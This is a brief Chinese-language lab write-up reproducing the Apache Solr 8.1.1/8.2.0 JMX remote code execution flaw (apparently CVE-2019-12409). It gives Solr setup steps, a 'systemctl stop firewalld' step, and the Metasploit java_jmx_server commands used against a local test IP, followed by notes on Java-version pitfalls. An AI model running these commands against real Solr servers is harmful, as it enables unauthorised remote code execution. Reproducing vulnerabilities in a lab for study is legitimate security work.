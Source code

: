 # 0x00 复现环境
使用复现环境：本地搭建的环境  
复现版本：Solr 8.2.0

# 0x01 环境搭建
目标环境：centos7_x64_en-us + solr-8.2.0.tgz + openjdk version "1.8.0_181"  
wget https://archive.apache.org/dist/lucene/solr/8.2.0/solr-8.2.0.tgz  
tar -xvf ./solr-8.2.0.tgz  
cd ./solr-8.2.0.tgz/bin/  
./solr start -force#默认启动端口8983  
启动后浏览器访问http://127.0.0.1:8983/ ，出现下图所示表示环境配置完成：  
![image](./1.png)

# 0x02 利用条件
无

# 0x03 影响版本
Solr 8.1.1  
Solr 8.2.0

# 0x04 漏洞复现
攻击环境：kali2020 + msf5  
msfconsole  
use exploit/multi/misc/java_jmx_server  
set rhosts 172.16.35.138  
set rport 18983  
run  
![image](./2.png)

# 0x05 踩坑记录
坑1：  
在kali下搭建的漏洞环境run多次后一直失败，经查看发现kali下的java版本是openjdk version "11.0.6" 2020-01-14，怀疑可能是java版本过高导致的利用失败，故在ubuntu16.04_x64_en-us下使用java8重新搭建solr-8.2.0.zip，漏洞利用成功。看过别人在java10下也有利用成功的文章，怀疑可能exp针对java10及以下的版本才有效。  
坑2：  
centos7下默认开启防火墙，需要临时关闭防火墙：“systemctl stop firewalld”

# 0x06 参考链接
https://github.com/jas502n/CVE-2019-12409
